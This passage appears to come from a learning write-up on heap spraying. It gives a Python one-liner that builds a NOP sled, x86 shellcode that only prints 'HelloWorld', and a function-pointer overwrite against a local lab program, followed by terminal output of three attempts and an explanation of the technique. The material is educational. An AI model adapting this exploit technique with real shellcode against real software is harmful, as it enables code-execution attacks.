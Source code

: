 ```
broken-stack@valhalla:~/heap-spray$ python -c "print(('\x90' * 100000) + '\xe9\x1e\x00\x00\x00\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\x59\xba\x0f\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xdd\xff\xff\xffHelloWorld\r\n' + ('A' * 64 + '\x10\x30\x41\xf7'))" | ./heap_spray_user_input 

Simulated user input     0xf7379010
Buffer for overflow      0xffef6dc8
Function pointer         0x080484e6
Corrupted function pointer       0xf7413010
Calling func pointer     0xf7413010
Segmentation fault (core dumped)

ATTEMPT 1: MISS

broken-stack@valhalla:~/heap-spray$ python -c "print(('\x90' * 100000) + '\xe9\x1e\x00\x00\x00\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\x59\xba\x0f\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xdd\xff\xff\xffHelloWorld\r\n' + ('A' * 64 + '\x10\x30\x41\xf7'))" | ./heap_spray_user_input 

Simulated user input     0xf7416010
Buffer for overflow      0xffa3bcf8
Function pointer         0x080484e6
Corrupted function pointer       0xf7413010
Calling func pointer     0xf7413010
Segmentation fault (core dumped)

ATTEMPT 2: MISS

broken-stack@valhalla:~/heap-spray$ python -c "print(('\x90' * 100000) + '\xe9\x1e\x00\x00\x00\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\x59\xba\x0f\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xdd\xff\xff\xffHelloWorld\r\n' + ('A' * 64 + '\x10\x30\x41\xf7'))" | ./heap_spray_user_input 

Simulated user input     0xf7412010
Buffer for overflow      0xff832f18
Function pointer         0x080484e6
Corrupted function pointer       0xf7413010
Calling func pointer     0xf7413010

HelloWorld

ATTEMPT 3: HIT
```

So, I used the same memory address which was a known "hot zone" in our heap for the simulated user input variable. I ran the program a few times and noticed that `\xf741xxxx` was a common address space for the variable. So, I picked one of the addresses I found `\x10\x30\x41\xf7` and I used that over and over. Eventually, we hit a NOP command and the NOP slide began. After we finished sliding, we hit my shellcode and began executing it (which just prints "HelloWorld").

## Conclusions
